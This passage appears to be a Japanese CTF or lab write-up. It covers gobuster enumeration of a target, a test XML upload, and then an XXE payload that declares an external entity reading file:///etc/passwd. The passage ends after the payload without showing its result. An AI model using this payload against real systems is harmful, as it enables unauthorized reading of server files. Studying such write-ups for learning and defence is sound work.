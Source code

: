 ## gobuster

```                                                                                                                                                                  
/feed (Status: 200) [Size: 546263]                                                                                                                                                                                                         
/upload (Status: 200) [Size: 347]
```

## みてみる
/feed はただの画像でした
### /
![スクリーンショット 2020-06-27 13.25.44.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/123adffc-de13-f1a2-1ad4-0e68f1423f8b.png)

### /upload
![スクリーンショット 2020-06-27 13.48.45.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/022f5d1c-7b3b-155c-54fa-ffbd0cfbad95.png)

## uploadしてみる

適当な xml を upload します

```
<?xml version="1.0"?>
<item>
        <Author>sanposhiho</Author>
        <Subject>testes</Subject>
        <Content>testes</Content>
</item>
```

![スクリーンショット 2020-06-27 14.09.53.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/15fcc182-f507-5ef6-a5bc-395166f54870.png)
![スクリーンショット 2020-06-27 14.10.23.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/6108eec6-6c60-4a74-3c8d-4b2cdc4b77ce.png)

upload したものを閲覧できるようになってます

## local file inclusion

xml で良い感じに local file inclusion を試みます

https://gist.github.com/N1gh7m4r3-N1dh/a25dd8a9f6b7648561dfed50bb3b0620

```
<?xml version="1.0"?>
<!DOCTYPE lfi [
  <!ELEMENT lfi ANY>
  <!ENTITY boo SYSTEM
  "file:///etc/passwd">
]>
<item>
        <Author>sanposhiho</Author>
        <Subject>testes</Subject>
        <Content>&boo;</Content>
</item>

```
